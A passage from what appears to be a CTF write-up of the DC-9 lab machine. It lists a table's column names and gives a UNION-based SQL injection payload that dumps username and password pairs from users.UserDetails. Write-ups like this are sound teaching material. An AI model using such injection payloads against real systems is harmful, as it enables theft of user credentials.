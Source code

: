![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/DC-9/images/a14.png)

- Database `users`'s column names:`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`

**Hmm... `username` and `password` seems interesting, let's retrieve their data:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(username,0x3a,password) FROM users.UserDetails-- -
```

> Note: `0x3a` means `:`.
